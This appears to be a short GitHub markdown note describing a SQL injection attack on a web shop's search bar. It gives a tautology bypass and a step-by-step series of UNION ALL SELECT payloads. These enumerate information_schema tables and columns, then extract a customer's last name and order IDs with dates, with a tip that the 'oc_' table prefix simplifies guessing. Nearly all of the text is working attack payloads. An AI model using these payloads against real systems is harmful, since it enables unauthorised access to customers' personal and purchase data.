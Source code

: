 # SQL Injection

Simples sql injection is possible by putting `'OR 1=1) -- '` in the search bar

### Thought process

Could be good to allow user to look into the query syntax somehow on error (return sql errors straight to the fronted?)

Next step is getting info about tables:
`') UNION ALL SELECT 0,1,2,3,4,5,6,7,8,9 FROM information_schema.tables -- .`

INFORMATION_SCHEMA.TABLES have columns:

> TABLE_NAME, ENGINE, VERSION, ROW_FORMAT, TABLE_ROWS, AVG_ROW_LENGTH,
> DATA_LENGTH, MAX_DATA_LENGTH, INDEX_LENGTH, DATA_FREE, AUTO_INCREMENT,
> CREATE_TIME, UPDATE_TIME, CHECK_TIME, TABLE_COLLATION, CHECKSUM,
> CREATE_OPTIONS, TABLE_COMMENT

Useful is probably this one:

> TABLE_NAME

`asdf') UNION ALL SELECT 0,1,table_name,3,4,5,6,7,8,9 FROM information_schema.tables -- .`

Get columns:

`asdf') UNION ALL SELECT 0,1,COLUMN_NAME,3,4,5,6,7,8,9 FROM information_schema.columns where table_name = 'customer' -- .`

Get user lastname:

`asdf') UNION ALL SELECT 0,1,lastname,3,4,5,6,7,8,9 FROM customer WHERE customer_id=420 -- .`

Get order table columns:

`asdf') UNION ALL SELECT 0,1,COLUMN_NAME,3,4,5,6,7,8,9 FROM information_schema.columns where table_name = 'order' -- .`

Get order id by customer id (with dates):

`asdf') UNION ALL SELECT 0,1,order_id,date_added,4,5,6,7,8,9 FROM order WHERE customer_id=420 -- .`

Possible sorting with

`asdf') UNION ALL SELECT 0,1,order_id,date_added,4,5,6,7,8,9 FROM order WHERE customer_id=420 ORDER BY date_added DESC -- .`

> Note: usage of "oc\_" prefix for tables might simplify the guessing process. E.g. "order" is an SQL keyword and proper "order" table naming requires quote symbols (throwing errors otherwise)
